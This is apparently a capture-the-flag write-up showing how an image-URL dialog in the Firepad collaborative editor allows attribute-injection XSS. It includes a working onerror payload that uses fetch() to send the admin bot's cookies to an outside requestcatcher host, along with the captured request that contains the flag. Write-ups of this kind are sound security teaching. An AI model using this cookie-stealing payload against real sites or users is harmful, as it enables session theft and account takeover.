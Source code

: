 # Letter To The Editor

## Challenge Description
Old software, good software:
Clone and pwn: https://github.com/FirebaseExtended/firepad

## First Look
When we load the CTF website, we get this:
```
No admin running at the moment. Start (120s timeout)
```
Clicking start, we get
```
Your pad link: https://demo.firepad.io/#bClpaeyQXL
117s left
```

It brings us to a firepad website. When we are on the website, we notice 2 users that are viewing the pad. One is us, and the other is their admin bot. At this point I am guessing it will be some kind of XSS to steal the admin's cookie, so I start poking around on the website.

## Finding XSS Vulnerability

Eventually, I clicked on the image icon. It brings up a text dialog that says "Insert image url" with a submit button. I tried with a random image url to see what would happen. After submitting, I inspected the part of the page where the image was reflected to see how this shows up in the code. Nestled among many layers of divs, we see the image tag that was generated
```
<img src="https://en.wikipedia.org/wiki/PNG#/media/File:PNG_transparency_demonstration_1.png">
```

Cool, let's see if it is vulnerable to XSS. I submitted `" onerror="alert('xss');"`, and sure enough, an alert was generated!

## Solution

All that was left now was to submit a payload when the admin was logged in to steal their cookie. The payload I submitted was 
```
" onerror="fetch('https://joeyfirepad.requestcatcher.com/?cookie=' + document.cookie)
```

## Flag
The following request was received:
```
GET /?cookie=flag=GPNCTF{fun_w1th_0p3n_s0urc3};%20__utma=36539063.2045130622.1717441055.1717441055.1717441055.1;%20__utmc=36539063;%20__utmz=36539063.1717441055.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none);%20__utmt=1;%20__utmb=36539063.1.10.1717441055
```